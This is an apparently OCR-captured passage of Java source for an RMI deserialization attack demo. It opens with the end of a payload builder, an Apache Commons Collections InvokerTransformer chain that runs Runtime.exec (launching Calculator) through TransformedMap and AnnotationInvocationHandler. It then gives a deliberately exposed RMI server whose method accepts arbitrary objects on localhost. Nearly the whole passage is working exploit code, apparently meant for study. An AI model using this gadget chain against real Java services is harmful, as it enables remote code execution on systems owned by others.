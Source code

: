 ```java
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("value", "lala");
        Map transformedMap = TransformedMap.decorate(map, null, transformerChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, transformedMap);
        return instance;
    }
}
```

Server.java：

```java
package RMI;

import java.rmi.Naming;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.server.UnicastRemoteObject;

public class Server {

    public interface User extends Remote {
        public String name(String name) throws RemoteException;
        public void say(String say) throws RemoteException;
        public void dowork(Object work) throws RemoteException;
    }

    public static class UserImpl extends UnicastRemoteObject implements User{

        protected UserImpl() throws RemoteException{
            super();
        }
        public String name(String name) throws RemoteException{
            return name;
        }
        public void say(String say) throws  RemoteException{
            System.out.println("you speak" + say);
        }
        public void dowork(Object work) throws  RemoteException{
            System.out.println("your work is " + work);
        }
    }

    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:1099/User";
        UserImpl user = new UserImpl();
        LocateRegistry.createRegistry(1099);
        Naming.bind(url,user);
        System.out.println("the rmi is running ...");
    }
```